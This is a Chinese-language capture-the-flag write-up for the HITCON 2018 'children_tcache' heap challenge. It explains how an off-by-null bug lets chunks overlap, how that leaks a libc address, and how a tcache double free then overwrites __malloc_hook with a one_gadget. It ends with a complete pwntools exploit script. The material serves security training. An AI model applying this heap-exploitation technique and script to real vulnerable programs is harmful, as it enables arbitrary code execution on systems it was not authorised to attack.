


# hitcon_2018_children_tcache

这个题目的使用是要给tcache的一个攻击方式这里我们直接开始使用访问反汇编的代码



这里是要给add的一个函数在这个存在一个strcpy函数，而这个函数也是一个漏洞函数当他运行这个程序的时候会对我们复制的文件的最后文件中加入\x00这个字符串因此这里就存在



并且这里的free函数中没有uaf漏洞同时在free后会把堆块填充da

因此我们要清空这个da对我们的一个影响因此我们这里要对文件进行一个\x00的一个填充因此我们要使用一个for循环

## 思路

由于有off-by-null 我们可以改size的prev in use位为0，我们可以利用unssortbin合并堆块，造成堆块复用
泄露libc地址，用doublefree，改malloc_hook为onegadget

1.先申请4个堆块

2.释放chunk0，为合并做准备

3.我们释放chunk1，再申请chunk1回来，填满数据，修改chunk2的prev in use位为0
由于free时会在prev size处填da，我们也需要控制prev size
所以循环一个一个字节一次清零，清零后我们填入prev size为chunk0+chunk1大小的和

到这里，我们已经布置好合并所需的条件了，然后用delete chunk2触发
（虽然合并了，但是chunk1里的指针还在，合并操作并没有清零指针）

4.我们申请和chunk0一样大小的chunk，就会从合并的unsortbin中割一块，然后有main_arena+96地址就对应下移到了chunk1的fd与bk处，由于指针还在，我们就能show出来，相应计算出libc_base,__malloc_hook,onegadget

5.我们再申请chunk1大小的size，在bss指针里就有了两个指向chunk1的指针了
我们就可以doublefree，然后我们利用doublefree改hook为og

## exp

```python
from pwn import *
from LibcSearcher import *
local_file  = '/home/fofa/HITCON_2018_children_tcache'
local_libc  = '/home/fofa/buulibc/libc-2.27-64.so'
remote_libc = '/home/fofa/buulibc/libc-2.27-64.so'
#remote_libc = '/home/glibc-all-in-one/libs/buu/libc-2.23.so'
select = 1
if select == 1:
    r = process(local_file)
    libc = ELF(local_libc)
else:
    r = remote('node5.buuoj.cn',28791 )
    libc = ELF(remote_libc)
elf = ELF(local_file)
context.log_level = 'debug'
context.arch = elf.arch
se      = lambda data               :r.send(data)
sa      = lambda delim,data         :r.sendafter(delim, data)
sl      = lambda data               :r.sendline(data)
sla     = lambda delim,data         :r.sendlineafter(delim, data)
sea     = lambda delim,data         :r.sendafter(delim, data)
rc      = lambda numb=4096          :r.recv(numb)
rl      = lambda                    :r.recvline()
ru      = lambda delims                         :r.recvuntil(delims)
uu32    = lambda data               :u32(data.ljust(4, b'\0'))
uu64    = lambda data               :u64(data.ljust(8, b'\0'))
info    = lambda tag, addr        :r.info(tag + ': {:#x}'.format(addr))
o_g_32_old = [0x3ac3c, 0x3ac3e, 0x3ac42, 0x3ac49, 0x5faa5, 0x5faa6]
o_g_32 = [0x3ac6c, 0x3ac6e, 0x3ac72, 0x3ac79, 0x5fbd5, 0x5fbd6]
o_g_old = [0x45216,0x4526a,0xf02a4,0xf1147]
o_g = [0x45226, 0x4527a, 0xf0364, 0xf1207]

def debug(cmd=''):
     gdb.attach(r,cmd)
#---------------------------------
def add(size,content):
    sla('Your choice: ','1')
    sla('Size',str(size))
    sa('Data:',content)
def show(index):
    sla('Your choice: ','2')
    sla('Index:',str(index))
def delete(index):
    sla('Your choice: ','3')
    sla('Index:',str(index))
#----------------------------------
add(0x500,'a')#
add(0x68,'a')#
add(0x5f0,'a')#
add(0x20,'a')#3
delete(1)
delete(0)
for i in range(9):
    add(0x68 - i, 'b' * (0x68 - i))#
    delete(0)


add(0x68, b'b'*0x60+p64(0x580))#0
delete(2)
#debug()
add(0x508, b'a'*0x507)#1
#debug()
show(0)

libc_base=uu64(rc(6))-96-0x10-libc.sym['__malloc_hook']
print(hex(libc_base))
gdb.attach(r)
og=[0x4f2be,0x4f2c5,0x4f322,0x10a38c]
onegadget=libc_base+og[2]
gdb.attach(r)

#----------------------------------
add(0x68,'b'*0x67)#
delete(0)
delete(2)
add(0x60,p64(libc_base+libc.sym['__malloc_hook']))#
add(0x60,'a')
add(0x60,p64(onegadget))
# gdb.attach(r)
sla('Your choice: ','1')
sla('Size','99')
#debug()
r.interactive()

```

